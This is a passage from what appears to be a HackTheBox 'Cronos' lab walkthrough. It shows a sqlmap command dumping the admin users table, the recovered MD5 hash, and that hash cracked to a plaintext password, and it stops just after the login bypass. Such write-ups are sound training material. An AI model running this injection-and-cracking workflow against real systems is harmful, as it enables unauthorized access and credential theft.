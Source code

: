 ```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt -D admin -T users --dump --batch
...
[14:48:44] [WARNING] no clear password(s) found                        
Database: admin
Table: users
[1 entry]
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 4f5fffa7b2340178a716e3832451e058 | admin    |
+----+----------------------------------+----------+
...
```

Nice, we found the password hash for admin. [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) found the hash to be either MD5 or MD4. Cracked the hash using [MD5Online](https://www.md5online.org/md5-decrypt.html): `1327663704`.

# Exploit

After bypassing the login page, we are brought to this page.
